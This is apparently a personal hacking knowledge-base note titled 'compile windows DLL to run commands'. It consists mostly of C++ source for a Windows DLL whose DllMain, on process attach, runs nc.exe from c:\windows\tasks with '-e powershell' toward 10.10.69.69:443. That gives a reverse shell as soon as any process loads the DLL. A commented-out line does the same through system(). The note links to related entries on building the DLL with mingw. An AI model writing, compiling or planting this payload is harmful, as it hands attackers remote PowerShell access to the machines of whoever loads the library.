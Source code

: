 # compile windows DLL to run commands DLL code
```cpp
#include <windows.h>

BOOL WINAPI DllMain(
  HINSTANCE hinstDLL,  // handle to DLL module
  DWORD fdwReason,     // reason for calling function
  LPVOID lpReserved )  // reserved
{
  switch( fdwReason ) // Perform actions based on the reason for calling.
  {
    case DLL_PROCESS_ATTACH: // Initialize once for each new process.  Return FALSE to fail DLL load.
      WinExec("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell", 0);
      //system("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell");
      break;

    case DLL_THREAD_ATTACH: // Do thread-specific initialization.
    case DLL_THREAD_DETACH: // Do thread-specific cleanup.
    case DLL_PROCESS_DETACH: // Perform any necessary cleanup.
      break;
  }
  return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```

# References
- [20221003151106](/zet/20221003151106/README.md) compile windows DLL to run commands
- [20221003151104](/zet/20221003151104/README.md) compile windows DLL to run commands DLL code building with mingw
- ~/kb/hacking/windows/dll-to-run-commands.md

Tags:
    #assorted
